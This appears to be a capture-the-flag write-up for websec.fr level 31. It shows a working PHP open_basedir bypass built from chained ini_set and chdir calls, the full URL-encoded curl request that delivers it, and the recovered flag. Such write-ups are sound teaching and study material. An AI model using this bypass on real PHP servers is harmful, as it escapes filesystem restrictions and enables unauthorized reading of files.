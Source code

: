 I found this challenge to bypass `open_basedir`:
https://flagbot.ch/posts/phuck3/

`open_basedir` can always be tightened, and when we set a new value, PHP  checks whether all the new paths are allowed by the old path.

I can first reset `open_basedir` to `/sandbox` again. Then, I can change directory to another one and attempt to change the `open_basedir` value again.



I was thinking just to run `ini_set` again with the previous directory:

```php
ini_set('open_basedir','/sandbox');
chdir('./tmp');
ini_set('open_basedir','..');

chdir('..');
chdir('..');
chdir('..');
chdir('..');

ini_set('open_basedir','/');
var_dump(file_get_contents('/flag.php'));
```

```
$ curl https://websec.fr/level31/index.php?c=ini_set%28%27open_basedir%27%2C%27%2Fsandbox%27%29%3B+chdir%28%27.%2Ftmp%27%29%3B+ini_set%28%27open_basedir%27%2C%27..%27%29%3B++chdir%28%27..%27%29%3B+chdir%28%27..%27%29%3B+chdir%28%27..%27%29%3B+chdir%28%27..%27%29%3B++ini_set%28%27open_basedir%27%2C%27%2F%27%29%3B+var_dump%28file_get_contents%28%27%2Fflag.php%27%29%29%3B&submit=Submit

WEBSEC{Cheers_to_Blaklis_for_his_phuck3_challenge_for_Insomnihack_2019}
```

Funny that I happened to find the exact challenge referenced. 
`/tmp` directory is created by default within the `/sandbox` dir.

This was found using:
```php
$files = scandir('.'); foreach ($files as $file) { echo $file; }
# produces ...tmp
# so I know /sandbox/tmp exists!
```